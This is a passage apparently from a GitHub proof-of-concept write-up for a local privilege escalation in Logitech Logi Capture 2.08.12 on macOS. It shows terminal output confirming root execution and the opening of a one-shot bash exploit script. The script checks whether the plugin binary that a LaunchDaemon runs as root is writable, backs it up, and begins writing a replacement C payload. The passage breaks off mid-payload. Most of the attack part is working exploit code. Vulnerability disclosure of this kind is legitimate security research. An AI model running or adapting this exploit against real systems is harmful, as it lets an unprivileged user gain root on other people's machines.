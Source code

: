 ### Verify the `root` code execution
The `/tmp/com.Logitech.Assistant.Service.pwn` file contains the result of the `root` code execution:
```bash
14:02:38-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ tail -f /tmp/com.Logitech.Assistant.Service.pwn
Fri Dec 29 14:41:23 PST 2023
root
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
```


## One-shot exploit PoC 

```bash
########################################################################################################################
#!/bin/bash
########################################################################################################################
/bin/echo "[i] Title:  Logitech Logi Capture 2.08.12 macOS Local Privilege Escalation (CoreMediaIO)"
/bin/echo "[i] Author: emkay128"
/bin/echo "[i] File:   CoreMediaIO_pwn.sh"
########################################################################################################################
VULN_FILE=Assistant
DEMO_NAME=${VULN_FILE}_LPE
PATH="/Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/"
PLIST=/Library/LaunchDaemons/com.SplitMediaLabs.LogiCapture.Assistant.plist
LPE_OUTFILE="/tmp/${VULN_FILE}.pwn"
########################################################################################################################
# STAGE 1 [EXPLOIT] #######################################################################################################
/bin/echo "[i] Checking if $PLIST exists"
if [ ! -f $PLIST ]; 
then
    /bin/echo "[FAIL] $PLIST doesn't exist :("
    exit   
fi

echo "[i] Viewing permissions for $VULN_FILE"
/bin/ls -@ -lah "$PATH"

test -w "${PATH}${VULN_FILE}" || {
   /bin/echo "[FAIL] Cannot write to the vuln file ${PATH}${VULN_FILE} :("
   exit
}

/bin/echo "[i] Creating backup of $VULN_FILE"
/bin/cp ${PATH}${VULN_FILE} ${PATH}${VULN_FILE}.bak

/bin/echo "[i] Creating $DEMO_NAME.c file"
/bin/cat << EOF > /tmp/$DEMO_NAME.c
#include <stdlib.h>
int main() {
    system("/bin/date > $LPE_OUTFILE");
    system("/usr/bin/whoami >> $LPE_OUTFILE");
    system("/usr/bin/id >> $LPE_OUTFILE");
```